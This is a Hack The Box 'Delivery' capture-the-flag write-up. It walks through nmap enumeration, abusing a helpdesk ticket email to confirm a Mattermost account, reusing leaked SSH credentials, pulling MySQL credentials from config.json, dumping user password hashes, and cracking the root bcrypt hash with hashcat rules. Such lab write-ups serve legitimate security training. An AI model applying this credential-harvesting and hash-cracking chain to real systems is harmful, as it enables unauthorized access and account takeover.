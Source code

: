 ```yaml
---
title: Hack The Box - Delivery Writeup
date: 2021-06-09 18:12:00 +0200
categories: [Hack The Box, Machines]
tags: [custom-exploitation, mysql, hashcat]     # TAG names should always be lowercase
dirImg: /assets/img/HTB/Delivery/
image:
  src: /assets/img/HTB/Delivery/icon.webp
  alt: Delivery image
---
```


Start with usual nmap enumeration 
```
nmap -sC -sV -oN nmap-initial 10.10.10.222
```

Port 22 and 80 open where an nginx server is listening.  
We visit the service on port 80. The page contains links to 2 different domain name, namely helpdesk.delivery.htb and delivery.htb. We add them in our /etc/hosts file so that we can access them.

## Foothold 

As described in the main page of delivery.htb we cannot access the Mattermost server if we don't have a delivery.htb account. The helpdesk server seems the first place we should look at.    
We start by poking around in the helpdesk servrer. We open a ticket and we get the following response message
```
zed, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 9756656.

If you want to add more information to your ticket, just email 9756656@delivery.htb.

Thanks,

Support Team
```

If we move to the Check Status tab we can see the status of our ticket but nothing more than that.  

The first idea is to create a new delivery.htb account in the helpdesk server. However, once the registration completes, the account is locked until we confirm the sign in process through a verification email. A verification email that will obviously never arrive because the HTB machines do not talk to the internet.  

As a second idea we play with the osTicket api with the purpose of bypassing the verification of the account. This road is also a rabbit hole though.

The third idea is instead the successful one.   
We can visit the mattermost server and create an account. It again asks for a confirmation email if we want to finalize the registration. While the problem with the verification email is still the same we had before, we can now find a smarter way to keep the verification email inside of the HTB network. By looking closer at the previous response, namely
```
If you want to add more information to your ticket, just email 9756656@delivery.htb.
```
we suspect that each email sent to 9203128@delivery.htb will add information to the ticket, thus showing them in our Check Status tab.  
So, we create the account in the mattermost server with the email 9756656@delivery.htb, the content of the verification email will be visible in our Check status tab as supposed.

![verifiction email]({{ page.dirImg }}/verification_email.png)

We follow the link in the email and we can login to the MatterMost server.

![picture mattermost]({{ page.dirImg }}/mattermost.png)


Once logged in we can retrieve the credentials for the server `maildeliverer:Youve_G0t_Mail!`. We try them in ssh and yes, they are correct!.  
We get in and we have the user flag.  It's time now to go for root.

## Root

We can enumerate the victim machine using linpeas.


Interesting stuff from linpeas' report
1. `* * * * *       root    /root/mail.sh `
2. binary permissions `85M -rwxrwxr-x 1 mattermost mattermost  85M Dec 18 08:53 /opt/mattermost/bin/mattermost`
3. `root       908  0.0  0.4  29544 18336 ?        S    10:27   0:00 python3 /root/py-smtp.py'

Nothing that we can exploit though.  

The /opt directory is very interesting because it usually contains user programs. It's very likely to configuration files with hardcoded credentials or useful info.

### config.json
This is an extract of the config.json file inside the mattermost directory under /opt

1.
```
"EnableGifPicker": true,
"GfycatApiKey": "2_KtH_W5",
"GfycatApiSecret": "3wLVZPiswc3DnaiaFoLkDvB4X0IV6CpMkj4tf2inJRsBY6-FnkT08zGmppWFgeof",
```

2.
```
"DriverName": "mysql",
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
"DataSourceReplicas": [],
"DataSourceSearchReplicas": [],
"MaxIdleConns": 20,
"ConnMaxLifetimeMilliseconds": 3600000,
"MaxOpenConns": 300,
"Trace": false,
"AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
"QueryTimeout": 30,
"DisableDatabaseSearch": false
```


So we have 2 interesting things to look at. The first one is not sensible info though. Those are just the default api keys to select GIfs through the emoji picker.  
The second one is instead more interesting. We have in fact an username and a password for a mysql database.  
We thus try to connect to the mysql database: `mysql -u mmuser -p`. Obviously the password is `Crack_The_MM_Admin_PW`.  

Once we are in we take a look around, we enter the mattermost database (`use mattermost`) and we dump the valuable columns of the Users table.


```
MariaDB [mattermost]> select username,password,email,position,roles from Users;


+----------------------------------+--------------------------------------------------------------+----------------------------------+----------+--------------------------+
| username                         | password                                                     | email                            | position | roles                    |
+----------------------------------+--------------------------------------------------------------+----------------------------------+----------+--------------------------+
| redd                             | $2a$10$hKlb3XSk3jjLPd77EFtdCOM1W9NbHxZoOvaJ/oXED6Pk8ni44PGFq | 9050912@delivery.htb             |          | system_user              |
| lukaspre01                       | $2a$10$.qWymcm5r70PPx7M1ft4Ce2IYcizXWVbI5Uf6CYKLLtDurQC.h1LK | a@a.a                            |          | system_user              |
| surveybot                        |                                                              | surveybot@localhost              |          | system_user              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | 4120849@delivery.htb             |          | system_user              |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | 7466068@delivery.htb             |          | system_user              |
| vik0nd                           | $2a$10$Xvpuik3uk89i5BXNL.e0YesORDU3Zkq8EdNuDOjHxomo9.nFydq7S | vik0nd@delivery.htb              |          | system_user              |
| mario                            | $2a$10$XxiqFPPGPcsN/69AAEhWIOOAYBomsGUxgQ2vsxVlcwO4vGUvJNbx. | 300065@delivery.htb              |          | system_user              |
| visiter                          | $2a$10$p2haD2QwKc/a2whVopP.be5/kzD9j9Hidjz84PXZCZt5uL5Fh.8XS | 4808841@delivery.htb             |          | system_user              |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | root@delivery.htb                |          | system_admin system_user |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | 9122359@delivery.htb             |          | system_user              |
| kr01lap1324                      | $2a$10$RKyOCA.5z/qlrRv9lUMpwOrML.RSfNR3qULV.xhURSZV9Q0zdEUWm | fvfmbadwiqmvnazjmp@upived.online |          | system_user              |
| channelexport                    |                                                              | channelexport@localhost          |          | system_user              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | 5056505@delivery.htb             |          | system_user              |
| test                             | $2a$10$qvQsc6MM7HCKfU8biKfUlOloiaDqKAB5Jt7rWMZAP1pS1PV94lUFa | test@test.test                   |          | system_user              |
| lukaspre0                        | $2a$10$2pbXtl5L.CcdxOMgLVV1iedACIN6vlxPQWGkP9YFebhz/icHS.fw6 | hogin71087@zefara.com            |          | system_user              |
| cha                              | $2a$10$cBEzQzkYyPip0qOWijE3L.53Igq2KllSXfm7wwLf901Vf1GWlsRNi | 2061649@delivery.htb             |          | system_user              |
+----------------------------------+--------------------------------------------------------------+----------------------------------+----------+--------------------------+
16 rows in set (0.001 sec)
```

The dump shows a dozen of usernames and hashes. Part of the accounts have been created by other HTB player when registering to the mattermost server.

We take the root hash and we give it to hashcat. As highlighted by the chat in the mattermost server we saw before, the candidate password is a variation of PleaseSubscribe!.  
Thus we try to crack the hash keeping this in mind.

We take 'PleaseSubscibe!' and we try its variations using the hashcat rules. There is no need of writing personal rules since hashcat provides some of the most common rules for password cracking. In kali Linux they are stored under /usr/share/hashcat/rules/.

```
> hashcat -a 0 -m 3200 hash pass -r /usr/share/hashcat/rules/bes t64.rule

...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
...
```

Cracked the hash, we can login as the root user: `su -` with password PleaseSubscribe!21

The root flag is there waiting for us.

